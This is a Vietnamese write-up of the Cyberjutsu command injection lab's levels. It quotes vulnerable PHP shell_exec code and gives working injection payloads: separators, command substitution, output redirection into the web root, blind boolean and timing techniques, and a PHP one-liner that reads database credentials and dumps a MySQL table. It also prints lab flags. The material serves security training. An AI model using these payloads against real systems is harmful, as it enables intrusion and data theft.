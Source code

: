 # **Write-up lab Command Injection** 
Đây là write-up bài lab Command Injection của Cyberjutsu. Bài lab này gồm tất cả là 9 level, trong đó có 7 level được cung cấp source code và 2 level ẩn. Mọi người có thể làm thử trên [website](https://cmdi.cyberjutsu-lab.tech:12001/) của cyberjutsu hoặc chạy bằng docker (dùng lệnh `docker-compose up --build`)

## **1. [Level 1](https://cmdi.cyberjutsu-lab.tech:12001/)**
Source code: [index.php](./cmdi_level1/src/index.php)

Nhìn vào code, ta thầy rằng người ta sử dụng các lệnh shell để chạy chương trình 
```php
case "ping":
	$result = shell_exec("timeout 10 ping -c 4 $target 2>&1");
	break;
case "nslookup":
    $result = shell_exec("timeout 10 nslookup $target 2>&1");
    break;	
case "dig":
    $result = shell_exec("timeout 10 dig $target 2>&1");
    break;
```
Ta thấy rằng, biến target không được kiểm soát bởi bất kì điều gì cho nên đoạn code này ta có thể dùng OS Comand Injection để khai thác.

Thật vậy, nếu ta nhập là `;id` trong trường họp 'ping' thì chương trình sẽ thực hiện lệnh là
```zsh
timeout 10 ping -c 4 ;id 2>&1
```
Ở đây, chương trình sẽ thực hiện lệnh ping trước rồi đến lệnh id (note: dấu chấm phẩy có tác dụng ngăn cách giữa 2 lệnh). Nếu đúng là vậy thì sẽ có kết quả của lệnh id cho chúng ta.

Chúng ta hãy thử xem sao:
![id](./image/level1/1.png)
Vậy là chúng ta đã khai thác thành công rồi, chúng ta sẽ thay lệnh id bằng các câu lệnh khác để truy tìm ra flag

**Payload:**
-   **;ls /**
![ls /](./image/level1/2.png)
-   **;cat /142awdfasd_secret.txt**
![cat](./image/level1/3.png)

## **2. [Level 2](https://cmdi.cyberjutsu-lab.tech:12002/)**
Source code: [index.php](./cmdi_level2/src/index.php)

Nhìn vào code, ta thấy rằng, người ta không cho mình sử dụng dấu ; để phân cách các câu lệnh
```php
if (strpos($target, ";") !== false) 
    die("Hacker detected!");
```
![Fail](./image/level2/1.png)

Tuy nhiên, ngoài dấu ; ra, chúng ta còn có các cách khác để phân cách hai lệnh với nhau (dùng `|`, `||`, `&` hoặc `&&`). Ở đây ta sử dụng `|`.

**Payload: `|cat \*.txt`**
![Payload](./image/level2/2.png)

## **3. [Level 2.5](https://cmdi.cyberjutsu-lab.tech:12003/)**

Bài này không có source code.

Bài này người ta không cho mình dùng `;`, `|` và `&` tức là chúng ta không thể thực hiện nhiều câu lệnh cùng lúc

![;](./image/level3/1.png)
![|](./image/level3/2.png)
![&](./image/level3/3.png)

Tuy nhiên, ta vẫn có thể thực hiện lồng câu lệnh trong một câu lệnh bằng dấu `` ` `` hoặc `$()`
![example](./image/level3/4.png)

**Payload: `` `nl /*.txt` `` (dùng dig)**
![nl](./image/level3/5.png)

## **4. [Level 3](https://cmdi.cyberjutsu-lab.tech:12004/)**

Source code: [index.php](./cmdi_level3/src/index.php)

Nhìn vào code, ta thấy rằng kết quả của câu lệnh không được in ra cho chúng ta xem. Chúng ta chỉ biết rằng câu lệnh có thực hiện thành công hay không?
```php
case "backup":
    $result = shell_exec("timeout 3 zip /tmp/$target -r /var/www/html/index.php 2>&1");
    if ($result !== null && strpos($result, "zip error") === false)
        die("Backup thành công");
    else
        die("Backup không thành công");
    break;
```
Nếu chúng ta không xem được kết quả câu lệnh, thì chúng ta thử chuyển kết quả đó vào một file rồi ta đọc file đó bằng trình duyệt bằng dấu `>`

Ở đây, chúng ta thấy thư mục hiện tại của web là `/var/www/html/`. Vì vậy, chúng ta thử `;id>/var/www/html/lUcgryy.txt #` (dấu `#` là để comment lại phần phía sau của câu lệnh). Câu lệnh mà chương trình thực tế sẽ làm là

``` zsh
timeout 3 zip /tmp/;id>/var/www/html/lUcgryy.txt # -r /var/www/html/index.php 2>&1
```
Kết quả:

![id](./image/level4/1.png)
![id2](./image/level4/2.png)

Vậy là chúng ta đã khai thác thành công rồi
**Payload: `;cat /*.txt>/var/www/html/lUcgryy.txt #`**
![payload](./image/level4/3.png)

## **5. [Level 4](https://cmdi.cyberjutsu-lab.tech:12005/)**
Source code: [index.php](./cmdi_level4/src/index.php), [nginx.conf](./cmdi_level4/config/nginx.conf)

Mình thử lại payload của level 3 và nó cũng ra flag (chắc là lỗi kĩ thuật)

**Payload: `;cat /*.txt>/var/www/html/lUcgryy.txt #`**
![payload](./image/level5/1.png)

## **6. [Level 5](https://cmdi.cyberjutsu-lab.tech:12006/)**
Source code: [index.php](./cmdi_level5/src/index.php), [nginx.conf](./cmdi_level5/config/nginx.conf)

Source code như cũ, nhưng khi thử lại payload của 2 level trên thì file `lUcgryy.txt` không tồn tại trên server.
![404](./image/level6/1.png)

Có vẻ như người ta đã chặn quyền viết vào thư mục `/var/www/html` nên chúng ta không thể chuyển kết quả của câu lệnh vào file khác.

Tuy nhiên, chúng ta vẫn còn giả thiết là server sẽ trả về kết quả thành công hoặc thất bại của câu lệnh. Liệu chúng ta có cách nào lợi dụng điều đó không? Và câu trả lời là có, chúng ta vẫn làm lệnh backup như bình thường và đồng thời sẽ brute force để tìm ra từng kí tự trong file flag (mình đã biết rằng file flag là một file .txt nào đó trong thư mục `/`). Nếu kí tự đó không có trong flag thì ta sẽ trả về câu `zip error` để khiến server in ra câu `Backup không thành công` và ta sẽ dựa vào điều đó để tìm ra mỗi kí tự có trong flag. Từ đó, chúng ta có một python script: [exploit.py](./scripts/level5.py)

**Flag:**
```
lv5: CBJS{trUe_0r_f4lse_d3tEct1on_b56c6ec4dd59e1741144ee8913e6b857}
```
## **7. [Level 6](https://cmdi.cyberjutsu-lab.tech:12007/)**
Source code: [index.php](./cmdi_level6/src/index.php), [nginx.conf](./cmdi_level6/config/nginx.conf)

Nhìn vào code, ta thấy rằng chương trình chỉ cho ta biết là lệnh `back up` đã được chạy, chứ không thể biết là có thành công hay không. Vì vậy, ta không thể sử dụng cách của level 5 được.

Tuy vậy, ta vẫn có thể khai thác bằng cách kiểm soát thời gian server trả respond về tùy vào trường hợp rồi tính thời gian đó thay vì dựa vào kết quả server trả về. Từ đó, chúng ta có script: [level6.py](./scripts/level6.py)

**Flag**
```
CBJS{Dr_Str4nge_W1Ll_pR0ud_oF_y0U_5be2459fbc44d1c2331cb840acd15fd0}
```

## **8. [Level 7](https://cmdi.cyberjutsu-lab.tech:12008/)**
Level này không có source code (Source code trong thư mục mình tìm được khi nghịch website :)).
Level này có 2 flag.

Đầu tiên, ta tìm được cách để chèn lệnh vào bằng cách `';command #`

![ls](./image/level8/1.png)

Ở đây, ta thấy có hai file, `cat` chúng thì được hai file: [index.php](./cmdi_level7/index.php), [test_pdo.php](./cmdi_level7/test_pdo.php)

### **Flag 1**
**Payload: `';cat /*.txt #`**
![payload](./image/level8/2.png)
### **Flag 2**
Có vẻ như flag 2 nằm ở trong database mysql (dựa vào [test_pdo.php](./cmdi_level7/test_pdo.php)).

Đầu tiên, mình thử kết nối với mysql trên máy tính linux của mình thì không thể kết nối được. Do đó, chỉ có cách kết nối thông qua server của website bởi vì file [test_pdo.php](./cmdi_level7/test_pdo.php) chạy thành công.

![testmysql](./image/level8/3.png)
k
Vì vậy, mình test thử lệnh mysql nhưng nó không hoạt động bởi vì server không hỗ trợ lệnh này. Do đó, mình chuyển qua sử dụng lệnh php
Trước hết, mình kiểm tra thử lệnh này có hoạt động được hay không bằng cách `';php -r 'phpinfo();' #`
![testphp](./image/level8/4.png)

Vậy là nó hoạt động. Tiếp theo, mình nghiên cứu cách truy vấn thông tin của database này bằng php thì ra các payload sau:
```php
';php -r 'try{
    $connectionString = "mysql:host=" . getenv('MYSQL_HOSTNAME') . ";port=3306;dbname=" . getenv('MYSQL_DATABASE');
    $pdo = new \PDO($connectionString, getenv('MYSQL_USER'), getenv('MYSQL_PASSWORD'));
    $query = "SHOW TABLES";
    $result = $pdo->query($query);
    $rows = $result->fetchAll(PDO::FETCH_COLUMN);
    echo json_encode($rows);
    } catch(Exception $e) {
        echo "php connect to mysql failed with:\n $e";}' #
```
Payload này để biết được các table có trong database này. Ở đây chỉ có `flag_table`
![table](./image/level8/5.png)
Sửa biến query thành `SELECT * FROM flag_table` để truy xuất ra flag